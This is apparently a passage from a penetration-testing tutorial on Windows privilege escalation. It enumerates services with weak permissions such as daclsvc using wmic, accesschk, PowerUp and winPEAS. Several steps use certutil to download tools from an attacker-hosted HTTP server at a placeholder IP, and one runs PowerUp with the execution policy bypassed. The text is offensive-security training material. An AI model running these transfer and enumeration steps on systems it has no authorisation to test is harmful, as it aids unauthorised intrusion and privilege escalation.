 ### **ENUMERATING SERVICES MANUALY**

1.  we can use the wmic command to display all the non-standard services running on the system using the following command:  
    `wmic service get name,displayname,pathname,startmode |findstr /i /v "C:\Windows\\"`

    ![](../../../../img/Windows-Environment/47.png)

2.  To perform the same function as the wmic command in PowerShell, apply the Get-WmiObject cmdlet as demonstrated:  
    `Get-WmiObject -class Win32_Service -Property Name,DisplayName,PathName,StartMode | Where {$_.PathName -notlike "C:\Windows\*"} | Select PathName,DisplayName,Name`

    ![](../../../../img/Windows-Environment/48.png)

### **ENUMERATING SERVICES WITH ACCESSCHK**

1.  If you don't have the Sysinternals Suite on your machine, you can download it from the official [Microsoft Website](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).

    ![](../../../../img/Windows-Environment/49.png)

    **NOTE:** We have identified that the target machine is a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/accesschk64.exe accesschk64.exe`

    ![](../../../../img/Windows-Environment/50.png)
    
3.  We can use [accesschk64.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) to find any service that is writeable for our current user / any user:  
    `.\accesschk64.exe "%USERNAME%" -wuvc * -accepteula`

    ![](../../../../img/Windows-Environment/51.png)

    **NOTE:** Here, we can see that the daclsvc service has `SERVICE_CHANGE_CONFIG` permissions, allowing any user to modify the service,The only other permission that allows us to modify a service is `SERVICE_ALL_ACCESS`.
    
4.  We can use PowerUp to perform all of the misconfiguration / vulnerability checks at once.  
    `powershell -NoProfile -ExecutionPolicy Bypass -Command "& {.\PowerUp.ps1; Invoke-AllChecks}"`

    ![](../../../../img/Windows-Environment/52.png)
    

### **ENUMERATING SERVICES PERMISSION WITH WINPEAS**

1.  Since the target runs a 64-bit OS, we can send 64-bit winPEAS via a Python HTTP server..  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/53.png)

    **NOTE:** We have identified that the target machine is a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Transfer winPEAS to target machine Using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/winPEASx64.exe winPEASx64.exe`

    ![](../../../../img/Windows-Environment/54.png)
    
3.  Now, all we need to do is run winPEAS to search for For weak service permissions   
    `.\winPEASx64.exe`

    ![](../../../../img/Windows-Environment/55.png)

    **NOTE:** The Services Information section in winPEAS provides a comprehensive list of all services, along with their configurations and potential security issues.
    
4.  Additionally, if we missed this somehow, scrolling down a bit further we will also see this finding in the Modifiable Services sub-section.

    ![](../../../../img/Windows-Environment/56.png)
    

### **GATHERING SERVICE INFORMATION**

1.  The pieces of information about the service that we are most interested in are the start mode and the binary path,StartName  
    `sc qc daclsvc`

    ![](../../../../img/Windows-Environment/57.png)
    
2.  using powershell  
    `Get-WmiObject win32_service | ?{$_.Name -like 'daclsvc'} | select Name, DisplayName, StartMode, State, PathName, StartName`

    ![](../../../../img/Windows-Environment/58.png)

    **NOTE:** We can see the StartName shows LocalSystem, which means this service executes as SYSTEM. If it was showing a different StartName, we would need to modify that field too to make sure the service executes as SYSTEM.
    
3.  we can use [SetACL](https://helgeklein.com/download/) to enumerate the permissions on the daclsvc service we found using the following command:  
    `.\SetACL.exe -on "daclsvc" -ot srv -actn list`  
    ![](../../../../img/Windows-Environment/59.png)